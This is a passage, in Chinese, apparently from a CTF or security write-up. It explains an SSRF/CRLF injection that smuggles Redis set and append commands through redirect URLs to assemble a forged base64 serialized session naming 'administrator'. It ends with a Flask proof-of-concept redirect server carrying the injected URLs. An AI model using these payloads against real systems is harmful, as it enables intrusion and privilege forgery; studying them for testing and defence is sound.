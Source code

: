 所以我们要控制url长度，比如通过`append`来给键加值，基本缩略如`http://0%0d%0aset%206z78up4prpcderqrsq0rce35wwdnhg50%20值%0d%0a:6379`。依旧很长，因为整个键名就非常长，这里我们也尝试缩短。

本地测试发现，最短的键名为8位字符，比如`h1234567`,于是缩减到`http://0%0d%0aset%20h1234567%20值%0d%0a:6379`

尝试: 
`http://0%0d%0aset%20h1234566%20OGIzY2Y0ZWFkOGI1MzExZ%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%20DdlMDRkYjNiOGM0NWM%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%202MGM3YWRhOWJjMDqAB%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%20JUbAAAAAAAAAH2UjAR%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%20uYW1llIwNYWRtaW5pc%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%203RyYXRvcpRzLg==%0d%0a:6379`、

即可进行拼接，创建文件`flask_poc.py`：
```python
from flask import Flask
from flask import redirect
from flask import request
from flask import render_template

app = Flask(__name__)
app.debug = True

@app.route('/redis')
def test():
    return redirect('http://0%0d%0aset%20h1234566%20OGIzY2Y0ZWFkOGI1MzExZ%0d%0a:6379', 302)

@app.route('/redis1')
def test1():
    return redirect('http://0%0d%0aappend%20h1234566%20DdlMDRkYjNiOGM0NWM%0d%0a:6379', 302)

@app.route('/redis2')
def test2():
    return redirect('http://0%0d%0aappend%20h1234566%202MGM3YWRhOWJjMDqAB%0d%0a:6379', 302)   

@app.route('/redis3')
def test3():
    return redirect('http://0%0d%0aappend%20h1234566%20JUbAAAAAAAAAH2UjAR%0d%0a:6379', 302)

@app.route('/redis4')
def test4():
    return redirect('http://0%0d%0aappend%20h1234566%20uYW1llIwNYWRtaW5pc%0d%0a:6379', 302)    

@app.route('/redis5')
def test5():
    return redirect('http://0%0d%0aappend%20h1234566%203RyYXRvcpRzLg==%0d%0a:6379', 302)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
